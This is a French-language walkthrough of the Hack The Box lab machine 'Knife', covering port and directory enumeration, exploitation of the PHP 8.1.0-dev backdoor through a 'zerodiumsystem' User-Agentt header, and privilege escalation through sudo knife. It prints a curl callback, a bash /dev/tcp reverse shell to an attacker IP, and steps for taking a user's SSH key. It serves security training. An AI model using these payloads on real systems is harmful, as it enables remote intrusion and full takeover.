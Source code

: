 # Knife [Linux] Easy

[https://app.hackthebox.com/machines/Knife/walkthroughs](https://app.hackthebox.com/machines/Knife/walkthroughs)

**— 1. Enumeration —**

`nmap -sS -sV -oN nmap.txt 10.10.10.242`

```perl
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-03 06:26 EDT
Nmap scan report for 10.10.10.242
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.32 seconds
```

`ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.242/FUZZ`

```perl
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.242/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 5815, Words: 646, Lines: 221]
index.php               [Status: 200, Size: 5815, Words: 646, Lines: 221]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
:: Progress: [4614/4614] :: Job [1/1] :: 2324 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

On obtient aucun dossier intéressant nous allons envoyer une requête curl pour obtenir plus d’information 

![Untitled](Knife%20%5BLinux%5D%20Easy%20080a9de49913484fa838653bb003434a/Untitled.png)

On apprend que le site utilise PHP 8.1.

**— 2.Exploitation —**

J’ai donc chercher un exploit de PHP 8.1 je suis tombé sur ce github

[https://github.com/CalegariMindSec/Exploit-PHP-8.1.0](https://github.com/CalegariMindSec/Exploit-PHP-8.1.0)

`chmod +x script.sh`

`./script.sh http://10.10.10.242`

![Untitled](Knife%20%5BLinux%5D%20Easy%20080a9de49913484fa838653bb003434a/Untitled%201.png)

On peux prendre le premier flag user.txt

Le problème avec cette exploit est que le shell pue ça race on va donc le changer en y accédant à peux près de la même manière.

On fait une requête avec Burp et on l’envoie au Repeater. 

Pour s’assurer que la machine est exploitable on change notre request la ligne du User-Agent :

pour User-Agentt: zerodiumsystem(’/usr/bin/curl 10.10.14.5’);

Avec un server python créé on peux recevoir des get de la machine cible ce qui nous prouve que nous pouvons exécuter des commandes avec Burp.

Maitenant pour avoir notre shell nous allons changer la ligne User-Agent : en

User-Agentt: zerodiumsystem("bash -c 'bash -i >&/dev/tcp/10.10.14.5/4242 0>&1'");

En même temps nous avons un listener en écoute sur le port 4242

`nc -lvnp 4242`

![Untitled](Knife%20%5BLinux%5D%20Easy%20080a9de49913484fa838653bb003434a/Untitled%202.png)

**— 3. Privilege Escalation —**

Augmentons la qualité de notre shell 

[https://nepcodex.com/2021/06/upgrade-to-an-intelligent-reverse-shell/](https://nepcodex.com/2021/06/upgrade-to-an-intelligent-reverse-shell/)

Sinon nous pouvons nous connecter en ssh 

Allons dans /home/james/.ssh

`mv id_rsa.pub authorized_keys`

Sans ça notre clé n’est pas autorisé.

`cat id_rsa`

Et on copie colle le contenu dans un de nos fichier.

`ssh -i id_rsa james@10.10.10.242`

Maintenant Gagnons les permission sudo :

`sudo -l`

```perl
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

On peux utilisé la commande knife . Go GTFObins

![Untitled](Knife%20%5BLinux%5D%20Easy%20080a9de49913484fa838653bb003434a/Untitled%203.png)

On exécute la commande sudo de GTFO:

![Untitled](Knife%20%5BLinux%5D%20Easy%20080a9de49913484fa838653bb003434a/Untitled%204.png)